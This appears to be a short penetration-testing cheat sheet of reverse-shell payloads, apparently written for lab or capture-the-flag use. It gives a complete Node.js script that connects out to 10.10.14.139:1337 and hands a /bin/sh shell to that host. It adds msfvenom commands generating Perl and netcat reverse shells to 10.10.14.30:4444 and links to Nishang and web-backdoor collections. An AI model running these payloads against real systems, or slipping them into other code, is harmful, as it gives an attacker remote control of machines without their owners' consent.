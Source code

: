 
# JS shell
```
var net = require('net');
var spawn = require('child_process').spawn;
HOST="10.10.14.139";
PORT="1337";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```


# PowerShell - Nishang Invoke-PowerShellTcp.ps1
Nishang Powershell - Invoke-PowerShellTcp.ps1
- https://github.com/samratashok/nishang
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

# Generate reverse shell

msfvenom -p cmd/unix/reverse_perl LHOST=10.10.14.30 LPORT=4444 R
=> generate perl nc

msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.30 LPORT=4444 R
=> nc in shell

# More to read
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors


